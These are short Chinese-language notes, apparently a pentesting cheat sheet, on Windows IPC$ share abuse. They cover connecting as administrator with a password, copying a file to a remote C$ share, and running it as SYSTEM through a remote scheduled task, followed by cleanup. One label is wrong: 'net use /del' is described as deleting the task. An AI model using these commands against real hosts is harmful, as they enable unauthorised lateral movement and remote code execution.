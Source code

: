 - 为了实现进程间通信而开放的命名管道

- 建立ipc$

  - net use \\192.168.16.10\ipc$ "密码" /user:administrator

  - net use

- ipc$利用条件

  - 1.开启139、445端口

  - 2.管理员开启了默认共享

- 利用方式

  - dir \\192.168.18.10\c$

  - tasklist /s 192.168.18.10

  - net time \\192.168.18.10

  - copy 文件 \\IP地址\c$

  - schtasks /create /s IP地址 /tn 计划任务名 /sc onstart /tr c:\文件 /ru system /f创建计划任务

  - schtasks /run /s IP地址 /i /tn "计划任务名” 执行计划任务

  - schtasks /delete /s IP地址 /tn "计划任务名" /f删除计划任务

  - net use \\IP /del /y删除计划任务